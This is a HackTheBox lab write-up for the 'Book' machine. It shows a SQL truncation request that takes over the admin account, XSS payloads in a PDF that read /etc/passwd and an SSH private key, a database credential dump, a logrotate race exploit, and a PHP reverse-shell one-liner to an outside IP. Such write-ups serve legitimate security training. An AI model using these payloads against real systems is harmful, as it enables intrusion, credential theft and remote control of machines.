






# Book

Author: Ewaël

**Book** is a medium HackTheBox box by MrR3boot.

`nmap -sC -sV -oN nmap 10.10.10.176 -v -A` show ports 80 and 22 are open. Let's start with the website.



I start by creating an account as `admin:admin@admin.com:admin` to see possible vulnerabilities on the site. There is a profile page with the `role` set as `user`. First I try a CSRF exploit on the contact page but it does not work because the administrators do not have the rights to change the roles. I also try to upload a reverse shell via the download function which is supposed to be used to submit books, but the sent suppositions are checked by administrators before being published.

Coming back on the register page I notice an interesting function in the source code:

```javascript
function validateForm() {
  var x = document.forms["myForm"]["name"].value;
  var y = document.forms["myForm"]["email"].value;
  if (x == "") {
    alert("Please fill name field. Should not be more than 10 characters");
    return false;
  }
  if (y == "") {
    alert("Please fill email field. Should not be more than 20 characters");
    return false;
  }
}
```

This is interesting because I can easily suppose that the mail address will be truncated if it's longer than 20 characters. Thus it would be vulnerable to an SQL tuncation attack, which is even more probable considering that dirbuster found a `db.php` page.

Let's send the following body through burp:

```
name=admina&email=admin%40book.htb         3&password=allo
```

Now I can log as admin with his own mail address (found in the contact page) that I overwrited.



I can now access the admin panel:



Moving around I realize that I can now download the collection of books with the ones that users recommanded too.

After testing some payloads in the pdf as the user I understand that it's useless because the only visible field by the admin is the `title` one. To find the good payload I used this site:

[https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)

```html
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```



I download the collection pdf aaaand... Surprise!



The exploit works as intended, and `reader` is the user I will attack as `syslog` does not seem to have a bash environnement. Let's dump its ssh private key:

```html
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```



Nice! My first idea is to use `ssh2john` script to crack the password but there is no password! I can just login with the private key and get the user flag:

`51c1d4b5197fa30e3e5d37f8778f95bc`

The privilege escalation for root is really a pain to me because I directly go into a rabbit hole. Indeed as I can now read the `db.php` file in `/var/www/html` which contains creds to dump the sql database, I feel like I'm on the right direction:

```php
<?php
$conn = mysqli_connect("localhost","book_admin","I_Hate_Book_Reading","book");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Dumping the database with mysqldump even gives me some admin creds:

```
$ mysqldump -ubook_admin -pI_Hate_Book_Reading book
...
LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
INSERT INTO `users` VALUES ('admin','admin@book.htb','Sup3r_S3cur3_P455'),('test','a@b.com','test'),('shaunwhort','test@test.com','casablancas1'),('peter','hi@hello.com','password');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
...
```

Sadly none of them work for sudo password or root password to connect with ssh.

Then I decide to do some enumeration with `LinEnum.sh` and `linPEAS.sh` but I only notice some weird cron jobs running on. As I am not familiar with those vulnerablities I use the `pspy64` script to check the running process and detect a vulnerable command runned as root.

```
...
2020/06/07 19:36:14 CMD: UID=???  PID=26591  | /usr/sbin/logrotate -f /root/log.cfg
...
```

This one catches my attention as the `/root` path is inside. Going back on the enumeration results I see:

```
/etc/cron.daily:
total 68
drwxr-xr-x  2 root root 4096 Dec  3  2019 .
drwxr-xr-x 99 root root 4096 Feb 19 14:09 ..
...
-rwxr-xr-x  1 root root  372 Aug 21  2017 logrotate
...
```

Now it's time for some googling about a possible exploit: [https://hackerone.com/reports/578119](https://hackerone.com/reports/578119). There is indeed a race condition exploit in `logrotate` that I'm going to use following [https://github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten).

I copy `logrotten.c` on the victim machine and I use `./logrotten -p ./payloadfile ~/backups/access.log` after compiling because the `create` option is on in `/etc/logrotate.conf`. At first it does not work using `nc` as supposed on the exploit page but after replacing it with `php -r '$sock=fsockopen("10.10.14.10",4444);exec("/bin/sh -i <&3 >&3 2>&3");'` I finally get my root shell on the listener:

`84da92adf998a1c7231297f70dd89714`
